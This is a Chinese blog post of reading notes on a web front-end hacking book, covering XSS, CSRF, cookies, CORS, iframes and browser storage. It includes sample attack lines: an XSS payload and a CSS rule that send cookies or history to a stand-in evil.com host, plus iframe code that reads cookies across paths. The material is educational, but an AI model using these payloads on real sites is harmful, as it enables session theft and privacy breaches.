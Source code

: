 ```yaml
---
title: 读《web前端黑客技术揭秘》
date:   2018/6/1
categories: 
    - 学习
    - 读书笔记 
---
```


XSS 跨站脚本攻击
如果攻击者构造出如下链接：
http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie)
浏览器解释执行后，下面的语句：
eval(location.hash.substr(1));
会变为：
eval('new Image().src="http://www.evil.com/steal.php?c="+escape(document.
cookie)')
Cookies 会话信息就会被盗取到黑客的网站上

CSRF 是跨站请求伪造，CSRF 会借用目标用户的权限做一些借刀杀人的事（注意是“借用”，而不是“盗取”
目标权限），然后去做坏事，
“盗取”通常是XSS（跨站脚本攻击）最喜欢做的事。

APT（持久化威胁）攻击
如果是个反射型的XSS，IE 8/IE 9/Chome 直接就给拦截了。

HTTP 是无状态的，那么每次在连接时，服务端如何知道你是上一次的那个？
这里通过Cookies 进行会话跟踪，第一次响应时设置的Cookies 在随后的每次请求中都会发
送出去。Cookies 还可以包括登录认证后的身份信息。

Content-Type: text/html;charset=gbk
响应资源的类型与字符集。针对不同的资源类型会有不同的解析方式，这个会影响浏
览器对响应体里的资源解析方式，可能因此带来安全问题。字符集也会影响浏览器的解码
方式，同样可能带来安全问题。

Set-Cookie: USERID=c7888882e039b32fd7b4d3; expires=Tue, 01 Jan 2030
00:00:00 GMT; path=/; domain=.foo.com
每个 Set-Cookie 都设置一个Cookie（key=value 这样），随后是如下内容。
expires：过期时间，如果过期时间是过去，那就表明这个Cookie 要被删。
path：相对路径，只有这个路径下的资源可以访问这个Cookie。
domain：域名，不允许设为下一级子域或其他外域，可以指定为父级域
HttpOnly：标志（默认无，如果有的话，表明Cookie 存在于HTTP 层面，不能被客户
端脚本读取）。
Secure：标志（默认无，如果有的话，表明Cookie 仅通过HTTPS 协议进行安全传输）。但是Secure Cookie 对于客户端脚本来说是可读写的。可读意味着
Secure Cookie 能被盗取，可写意味着能被篡改。

### iframe
攻击者入侵一个网站后，可以通过iframe 嵌入自己的网马页面，用户访问该网站后，被嵌入的网马页面就会执行

当网站页面使用iframe 方式嵌入一个页面时，
我们约定网站页面是父页，而被嵌入的这个页面是子页。那么父页与子页之间如何跨文档读写数据？
如果父页和子页之间是同域，那就很容易，父页可以通过调用子页的contentWindow
来操作子页的DOM 树，同理，子页可以调用父页的contentWindow 来操作父页的DOM 树。
如果它们不同域，则必须遵守同源策略，但子页还是可以对父页的location 值进行写操作，
这样可以让父页重定向到其他网页，不过对location 的操作仅仅只有写权限，而没有读权
限，这样就不能获取到父页location URL 的内容，否则有可能会造成隐私数据泄漏，

### 跨域
 www.foo.com（来源域）的AJAX 向www.evil.com（目标域）发起了请求，浏览器会
给自动带上Origin 头，如下：
Origin: http://www.foo.com
然后目标域要判断这个Origin 值，如果是自己预期的，那么就返回：
Access-Control-Allow-Origin: http://www.foo.com
表示同意跨域

如果目标域不设置Access-Control-Allow-Origin: http://www.foo.com，那么隐私数据可
以被偷到吗？答案是肯定的。虽然浏览器会报权限错误的问题，但实际上隐私数据已经被
目标域的steal.php 接收到了。

### 跨域带上会话
默认情况下，跨域不会带上目标域的会话（Cookies 等），需要设置xhr 实例的withCredentials 属性为true（IE 还不支持），同时目标域的steal.php 必须设置如下：
<?php
header("Access-Control-Allow-Origin: http://www.foo.com");
header("Access-Control-Allow-Credentials: true"); // 允许跨域证书发送
//...
?>
有 一 点 需 要 注 意 ， 如 果设置了Access-Control-Allow-Credentials 为true ， 那么
Access-Control-Allow-Origin 就不能设置为*通配符

### 跨路径读取Cookie
那么有什么办法跨路径读取Cookie？比如，/evil/路径想读取/admin/路径的Cookie。很简单，通过跨iframe 进行
DOM 操作即可，/evil/路径下页面的代码如下：
```javascript
xc = function(src){
var o = document.createElement("iframe"); // iframe 进入同域的目标页面
o.src = src;
document.getElementsByTagName("body")[0].appendChild(o);
o.onload = function(){ // iframe 加载完成后
d = o.contentDocument || o.contentWindow.document;
// 获取document 对象
alert(d.cookie); // 获取cookie
};
}('http://a.foo.com/admin/index.php');
```
所以，通过设置path 不能防止重要的Cookie 被盗取。

### 本地Cookie 与内存Cookie
如果没设置过期时间，就是内存Cookie，这样的Cookie 会随着浏览器的关闭而从内存中消失；如果设置了
过期时间是未来的某个时间点，那么这样的Cookie 就会以文本形式保存在操作系统本地，
待过期时间到了才会消失。

### P3P
HTTP 响应头的P3P（Platform for Privacy Preferences Project）字段是W3C 公布的一项
隐私保护推荐标准。该字段用于标识是否允许目标网站的Cookie 被另一个域通过加载目标
网站而设置或发送，仅IE 执行了该策略。
比如，evil 域通过script 或iframe 等方式加载foo 域（此时foo 域被称为第三方域）。
加载的时候，有两种场景

1. 浏览器是否会允许foo 域设置自己的Cookie

    在IE 下默认都是不允许第三方域设置域已有的Cookie的，除非foo 域在``响应的时候带上P3P 字段``

2. 浏览器是否允许发送请求到foo 域时，带上foo 域已有的Cookie

    发送的Cookie 如果是内存Cookie，则无所谓是否有P3P 属性，就可以正常发送；如果
    是本地Cookie，则这个本地Cookie 必须拥有P3P 属性，否则，即使目标域响应了P3P 头
    也没用。
### IE的userData
 ```javascript
 function set_ud(key,value) {
    var a = document.getElementById('x'); // x 为任意div 的id 值
    a.addBehavior("#default#userdata");
    a.setAttribute(key,value);
    a.save("db");
}
function get_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.load("db");
    alert(a.getAttribute(key));
}
function del_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.setAttribute(key, ""); // 设置为空值即可
    a.save("db");
}
window.onload = function(){
    set_ud('a','xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'); // 设置
    get_ud('a'); // 获取a 的值
    del_ud('a'); // 删除a 的值
    get_ud('a'); // 获取a 的值
};
 ```
### FlashCookie
```actionScript
function set_lso(k:String="default", v:String=""):void
{ // 设置值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.data[k] = v;
    shared.flush();
}
function get_lso(k:String="default"):String
{ // 获取值
    var str:String = "";
    var shared:SharedObject = SharedObject.getLocal("db");
    str = shared.data[k];
    return str;
}
function clear_lso():void
{ // 清空值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.clear();
}
```

### 函数劫持很简单
一般情况下，只要在目标函数触发之前，重写这个函数即可

### css
```css
#a2:visited {background: url(http://www.evil.com/css/steal.php?data=a2);}
```